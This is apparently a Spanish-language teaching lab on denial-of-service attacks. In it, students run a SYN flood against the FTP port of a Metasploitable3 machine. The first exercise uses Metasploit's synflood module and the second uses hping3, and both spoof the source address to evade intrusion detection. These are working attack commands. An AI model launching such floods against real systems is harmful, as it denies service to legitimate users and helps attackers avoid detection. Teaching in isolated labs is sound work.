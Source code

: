 # Ataques DoS.
      

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Metasplotaible3-Win2k8***


Los ataques ***DoS*** son los más sencillos de realizar. El atacante intenta saturar a la víctima, y si lo consigue, ésta no podrá realizar su cometido habitual. 

También sabemos que los ataques distribuidos DoS, o ***DDoS***, son prácticamente imposibles de evitar. La única forma de defendernos de ellos es que la electrónica de red o el perimetral los detecte o mitigue, ya que los sistemas operativos actuales no pueden defenderse por ellos mismos.

Estos ataques se caracterizan por consumir el ancho de banda disponible en la red de la víctima o la CPU de los dispositivos. Pertenecen al grupo de ***Ataques Volumétricos***. Los ataques más habituales son ***Inundación UDP***, ***Inundación ICMP***, ***Inundación SYN***, ***Fragmentación***

## Ejercicio 1: Lanzar un ataque de DoS con Metasploit.

En la máquina ***Metasploitable3-Win2k8***, iniciamos sesión y abrimos el ***Administrador de Tareas***. Podemos comprobar como la carga de CPU/RAM de la máquina es normal.
  
![CPU/RAM](../img/lab-06-I/202210031732.png)

El uso de la red por parte de la máquina está al mínimo.

![RED](../img/lab-06-I/202210031734.png)

Esta máquina tiene varios servicios, entre ellos un servidor ***FTP***, un servidor ***web*** y ***mySQL***.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando.
```
nmap 192.168.20.14
```

Vamos a atacar al servidor FTP de la víctima por medio de un ataque de inundación SYN, para denegar el servicio FTP.
```
sudo msfconsole
```

Configuramos el ataque de la siguiente forma.
```
use auxiliary/dos/tcp/synflood
```

```
set RHOST 192.168.20.14
```

```
set RPORT 21
```

Para intentar engañar a los IDS, usamos el parámetro ***SHOST*** donde ponemos la IP (falsa) que está realizando el ataque.
```
set SHOST 192.168.20.100
```

Comprobamos que la configuración es correcta.
```
show options
```

![TCP SYN](../img/lab-06-I/202210031742.png)

Lanzamos el ataque.
```
run
```

Si observamos, en la víctima, apenas se ha incrementado la carga de CPU de la víctima un 5%-9%. ***Metasploit*** no es especialmente efectivo y necesitaría realizarse un ***DDoS*** para saturar a la víctima.

En la máquina ***Kali***, detenemos el ataque pulsando ***CTRL+C***.


## Ejercicio 2: Lanzar un ataque de DoS con Hping3.

Por el contrario, ***Hping3*** s mucho más eficiente. 

En la máquina ***Kali*** ejecutamos en la terminal el ataque equivalente, pero usando ***Hping3***.
```
sudo hping3 -S 192.168.20.14 -a 192.168.20.100 -p 21 --flood
```

Como podrás observar, el ataque consigue sigir la ***CPU*** de la víctima en torno al 40%.

Podrías intentar abrir otras terminales y realizar el mismo ataque, obteniendo un incremento de uso de CPU de un 5% por cada terminal.

Al igual que el experimento anterior, para garantizar una denegación de servicio efectiva, independientemente del escalado vertical que pudiera llegar a tener la víctima, sería necesario recurrir a un ***DDoS***.

Finaliza los ataques cerrando las terminales.
